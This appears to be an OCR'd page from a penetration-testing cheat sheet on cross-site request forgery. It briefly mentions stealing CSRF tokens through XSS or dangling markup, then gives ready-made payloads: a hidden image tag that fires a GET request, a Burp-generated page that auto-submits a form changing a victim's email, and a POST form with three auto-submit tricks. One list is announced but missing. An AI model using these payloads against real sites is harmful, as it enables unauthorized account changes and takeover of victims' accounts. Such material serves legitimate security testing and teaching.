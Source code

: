 
# Exploit Examples

  Exfiltrating CSRF Token
  If a CSRF token is being used as **defence **you could try to **exfiltrate it **abusing a XSS vulnerability or a Dangling Markup vulnerability.

 
GET using HTML tags

        <img src="http://google.es?param=VALUE" style="display:none" />
        <h1>404 - Page not found</h1>
        The URL you are requesting is no longer available


Other HTML5 tags that can be used to automatically send a GET request are:



# Form GET request

          <html>
            <!-- CSRF PoC - generated by Burp Suite Professional -->
            <body>
            <script>history.pushState('', '', '/')</script>
              <form method="GET" action="https://victim.net/email/change-email">
                <input type="hidden" name="email" value="some@email.com" />
                <input type="submit" value="Submit request" />
              </form>
              <script>
                document.forms[0].submit();
              </script>
            </body>
          </html>


# Form POST request



            <html>
              <body>
              <script>history.pushState('', '', '/')</script>
                <form action="https://victim.net/email/change-email" id="csrfform">
                  <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
                  <input type="submit" value="Submit request" />
                  <img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
                </form>
                <script>
                  document.forms[0].submit(); //Way 3 to autosubmit
                </script>
              </body>
            </html>
